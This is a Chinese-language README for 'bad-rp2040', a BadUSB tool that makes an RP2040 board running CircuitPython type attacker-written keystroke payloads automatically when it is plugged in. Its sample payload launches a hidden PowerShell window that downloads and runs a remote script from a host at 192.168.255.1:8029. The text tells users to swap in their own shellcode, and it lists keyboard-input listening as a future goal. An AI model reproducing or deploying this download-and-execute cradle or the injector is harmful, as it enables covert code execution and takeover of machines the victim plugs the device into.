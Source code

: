 # bad-rp2040

第一版 还要修修

## 使用教程

虽然名字叫做bad-rp2040，但理论上它可以支持其他能够使用CircuitPython的板子。

* 第一步
  
  按住BOOT按键进入烧入模式从[这里](https://circuitpython.org/board/raspberry_pi_pico/)找到合适的CircuitPython固件烧入

* 第二步
  
  烧入完成后再下载项目文件，修改payload.txt为你想要的内容，之后写入磁盘模式的开发板

* 第三步
  
  重新插拔开发板，不出意外开发板会自动模拟按键输入编写好的payload


### payload语法

> 目前尚在开发中，很多功能并不全面画横线的表示正在开发中

可用案例：
```badusb
set Time 1
POWERSHELL
TOGGLE_INPUT
ECHO powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.255.1:8029/a'))"
```
将最后的echo内容替换为你的shellcode即可

内置了快捷使用的模组
* POWERSHELL
* TOGGLE_INPUT 输入法切换
* ~~WINDOWS~~
* ~~LINUX~~
* ~~CMD~~
* ~~SHELL~~

根据需求调用即可，echo语句用于输出字符串

### 语法表

| 命令     | 作用                       |
-----------|---------------------------|
| set Time | 设置按键间隔时间     |

#### 注意

如自行编写payload.txt，请注意windows的自动大小写问题

### 后续开发计划

短期
* 完成目前列出的所有模组
* 完成计划的语法

长期
* 是否可以做到监听键盘输入

![run](https://s2.loli.net/2024/12/04/d4NjluG9nEImwUB.png)
![shell](https://s2.loli.net/2024/12/04/oTHgaxBFnsqUGNM.png)